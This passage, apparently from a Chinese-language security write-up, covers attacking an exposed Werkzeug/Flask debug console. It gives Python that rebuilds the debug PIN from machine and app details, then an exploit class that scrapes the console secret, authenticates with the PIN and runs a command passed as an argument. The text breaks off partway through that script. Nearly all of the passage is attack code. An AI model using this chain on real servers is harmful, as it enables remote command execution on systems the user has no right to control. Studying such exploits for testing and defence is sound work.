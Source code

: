 ```py
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

利用 EXP
得到正确的 pin 码，可以利用如下脚本执行命令：
```py
#!/usr/bin/env python
import requests
import sys
import re
import json
import html

class EXP():
    def __init__(self) -> None:
        self.parse_input()
        self.sess = requests.session()
        self.sess.proxies = {
            "http":"http://127.0.0.1:8080",
            "https":"http://127.0.0.1:8080"
        }
        self.secret = self.get_secret()
        self.pin_auth()
        self.execute_cmd()
    
    def parse_input(self):
        if len(sys.argv) != 4:
            print(f"USAGE: python {sys.argv[0]} <website> <pin> <cmd>")
            sys.exit(-1)
        self.host = sys.argv[1]
        self.pin = sys.argv[2]
        self.cmd = sys.argv[3]

    def get_secret(self):
        res = self.sess.get(f'{self.host}/console')
        secret = re.findall("[0-9a-zA-Z]{20}",res.text)

```